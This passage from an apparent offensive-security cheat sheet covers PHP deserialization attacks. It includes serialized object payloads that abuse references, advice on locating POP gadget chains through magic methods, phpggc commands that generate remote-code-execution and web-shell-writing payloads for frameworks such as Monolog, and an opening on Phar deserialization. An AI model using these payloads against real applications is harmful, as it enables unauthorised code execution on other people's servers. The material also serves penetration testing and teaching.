 Payload:

```php
O:13:"ObjectExample":2:{s:10:"secretCode";N;s:5:"guess";R:2;}
```

We can do an array like this:

```php
a:2:{s:10:"admin_hash";N;s:4:"hmac";R:2;}
```

## Finding and using gadgets

Also called `"PHP POP Chains"`, they can be used to gain RCE on the system.

* In PHP source code, look for `unserialize()` function.
* Interesting [Magic Methods](https://www.php.net/manual/en/language.oop5.magic.php) such as `__construct()`, `__destruct()`, `__call()`, `__callStatic()`, `__get()`, `__set()`, `__isset()`, `__unset()`, `__sleep()`, `__wakeup()`, `__serialize()`, `__unserialize()`, `__toString()`, `__invoke()`, `__set_state()`, `__clone()`, and `__debugInfo()`:
    * `__construct()`: PHP class constructor, is automatically called upon object creation
    * `__destruct()`: PHP class destructor, is automatically called when references to the object are removed from memory
    * `__toString()`: PHP call-back that gets executed if the object is treated like a string
    * `__wakeup()` PHP call-back that gets executed upon deserialization

[ambionics/phpggc](https://github.com/ambionics/phpggc) is a tool built to generate the payload based on several frameworks:

- Laravel
- Symfony
- SwiftMailer
- Monolog
- SlimPHP
- Doctrine
- Guzzle

```powershell
phpggc monolog/rce1 'phpinfo();' -s
phpggc monolog/rce1 assert 'phpinfo()'
phpggc swiftmailer/fw1 /var/www/html/shell.php /tmp/data
phpggc Monolog/RCE2 system 'id' -p phar -o /tmp/testinfo.ini
```

## Phar Deserialization

Using `phar://` wrapper, one can trigger a deserialization on the specified file like in `file_get_contents("phar://./archives/app.phar")`.

A valid PHAR includes four elements:

1. **Stub**: The stub is a chunk of PHP code which is executed when the file is accessed in an executable context. At a minimum, the stub must contain `__HALT_COMPILER();` at its conclusion. Otherwise, there are no restrictions on the contents of a Phar stub.
2. **Manifest**: Contains metadata about the archive and its contents.
3. **File Contents**: Contains the actual files in the archive.
4. **Signature**(optional): For verifying archive integrity.
